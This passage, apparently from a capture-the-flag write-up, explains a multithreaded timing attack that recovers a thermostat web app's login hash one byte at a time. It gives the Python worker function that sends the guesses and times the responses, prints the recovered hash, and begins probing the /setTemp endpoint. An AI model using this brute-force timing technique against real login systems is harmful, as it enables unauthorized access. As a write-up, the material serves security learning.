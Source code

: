 #### Multithreading

Doing this timing attack in a single thread would take hours. So we need to do it using multithreading [file]. I found out that the most reliable results from my VPS network were using a maximum of 16 threads. The general idea was to build a queue with hex range 0x00 to 0xff and make each thread do a request checking the elapsed time. Being greater than 0.5s from the previous `base_value` time means that we found another "byte".

Let's just see the main function that each thread will perform:

```python
def process_data(threadName, q): # Thread main function
    global found
    while not exitFlag:   # A flag to stop all threads
        queueLock.acquire()  # Acquire Queue
        if not workQueue.empty(): 
            payload = q.get()
            queueLock.release() # Release Queue
            time_elapsed = send(payload) # Send the hash and get time_elapsed
            if len(payload) == 64 and time_elapsed == 999: # Last two chars case
                found = payload
                return
				
            while time_elapsed - base_time_value > 0.8: # Possibly a network issue
                time_elapsed = send(payload) # Try again
				
            if (time_elapsed - base_time_value) > 0.4: # Maybe we have found
                time.sleep((len(found)/2)*0.6+1)   # Waiting to confirm
				
                again = send(payload)   # Confirming
				
                if (again - base_time_value) > 0.45:
                    found = payload[:len(found)+2] # Found!
                    print('Found: ' + payload)
        else:
            queueLock.release()
            time.sleep(2)
     
```

If you have extra time you could watch all the full execution here: https://youtu.be/y50QDcvS9OM ; and a quick version here: https://youtu.be/K1-EQrj0AwA

Finally we can login using `f9865a4952a4f5d74b43f3558fed6a0225c6877fba60a250bcbde753f5db13d8` as hash.

### Thermostat web app

Now that we are authenticated we can browse the application. All the endpoints are working, except /diagnostics which gives Unauthorized. Further, under /control there is a form to change the temperature by doing a POST to /setTemp. I took some time testing this endpoint, sending all kinds of payloads, but it seemed to only accept numbers. (Note: python accepts underscore in numeric literals [14]). 
